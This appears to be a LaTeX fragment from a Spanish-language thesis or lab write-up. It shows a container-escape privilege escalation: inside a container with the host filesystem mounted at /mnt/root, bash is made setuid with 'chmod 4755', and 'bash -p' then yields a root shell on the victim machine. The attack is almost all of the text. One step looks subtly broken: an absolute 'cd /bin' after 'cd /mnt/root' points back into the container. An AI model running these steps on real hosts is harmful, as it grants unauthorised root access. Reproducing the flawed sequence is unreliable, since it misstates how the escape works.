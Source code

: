\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/root}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}


\end{document}
